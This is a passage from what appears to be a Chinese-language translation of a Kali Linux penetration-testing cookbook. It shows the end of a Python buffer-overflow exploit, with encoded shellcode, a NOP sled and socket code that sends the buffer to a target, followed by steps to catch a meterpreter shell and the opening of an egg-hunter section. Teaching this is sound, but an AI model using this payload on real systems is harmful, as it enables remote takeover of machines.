 ```
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

以下屏幕截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/7a5ad769-7b63-423a-8e12-8068eeaf83ec.png)

1.  这次我们不使用调试器运行。我们将在 Kali 中打开我们的处理程序，然后我们应该有 meterpreter 访问：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/44862fbb-f064-4d32-b21d-026f52f9e59d.png)

# 另请参阅

+   [`www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/`](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)

+   [`resources.infosecinstitute.com/bypassing-seh-protection-a-real-life-example/`](http://resources.infosecinstitute.com/bypassing-seh-protection-a-real-life-example/)

# 利用蛋猎手

当内存中没有足够的空间连续放置我们的 shellcode 时，就会使用蛋猎手。使用这种技术，我们在我们的 shellcode 前面加上一个唯一的标签，然后蛋猎手基本上会在内存中搜索该标签并执行 shellcode。
